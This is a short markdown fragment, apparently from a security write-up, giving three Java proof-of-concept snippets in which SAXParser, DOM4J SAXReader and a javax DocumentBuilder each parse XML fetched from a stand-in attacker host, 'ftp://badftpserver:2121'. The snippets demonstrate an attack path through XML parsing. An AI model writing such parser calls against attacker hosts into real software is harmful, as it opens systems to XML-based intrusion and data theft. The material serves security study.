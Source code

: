 ```
[snip]
```

## SAXParser Proof of Concept

```
SAXParserFactory factory = SAXParserFactory.newInstance();
SAXParser saxParser = factory.newSAXParser();
UserHandler userhandler = new UserHandler();
saxParser.parse("ftp://badftpserver:2121/whatever.xml”)
```

## DOM4J / SAXReader Proof of Concept

```
SAXReader reader = new SAXReader();
Document document = reader.read( "ftp://badftpserver:2121/whatever.xml" );
```

## JAVAX XML Parsers Proof of Concept

```
DocumentBuilder db = dbf.newDocumentBuilder();
dom = db.parse("ftp://badftpserver:2121/whatever.xml");
```